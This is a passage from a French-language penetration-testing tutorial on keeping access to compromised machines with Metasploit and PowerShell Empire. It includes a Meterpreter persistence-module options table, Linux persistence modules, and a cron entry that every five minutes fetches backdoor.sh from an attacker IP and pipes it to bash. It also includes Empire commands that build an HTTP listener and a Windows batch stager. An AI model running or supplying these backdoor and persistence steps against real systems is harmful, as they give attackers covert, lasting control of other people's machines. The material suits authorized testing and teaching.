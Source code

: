 Options importantes pour le module `persistence` :

| Option | Description | Exemple |
|--------|-------------|---------|
| `-X` | Exécution au démarrage | `-X` |
| `-i` | Intervalle de connexion (secondes) | `-i 60` |
| `-p` | Port d'écoute | `-p 443` |
| `-r` | Adresse IP distante | `-r 192.168.1.50` |
| `-A` | Démarrage automatique du handler | `-A` |

> **COMMENT ?**  
> Le module `persistence` crée une entrée dans le registre pour exécuter un script VBS qui se connecte périodiquement à votre machine d'attaque. Cette méthode est relativement facile à détecter, mais efficace pour les tests d'intrusion.

### Mécanismes de persistance Linux

```
# Ajout d'une clé SSH
meterpreter > run post/linux/manage/sshkey_persistence

# Création d'un service systemd
meterpreter > run post/linux/manage/systemd_persistence

# Ajout d'une tâche cron
meterpreter > shell
$ echo "*/5 * * * * /usr/bin/curl -s http://192.168.1.50/backdoor.sh | bash" >> /etc/crontab
```

### Persistance avancée avec PowerShell Empire

PowerShell Empire est un framework post-exploitation qui s'intègre bien avec Metasploit.

```bash
# Installation de PowerShell Empire
sudo apt install powershell-empire

# Lancement d'Empire
sudo powershell-empire server

# Dans un autre terminal
sudo powershell-empire client

# Génération d'un stager
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host 192.168.1.50
(Empire: listeners/http) > execute
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
```
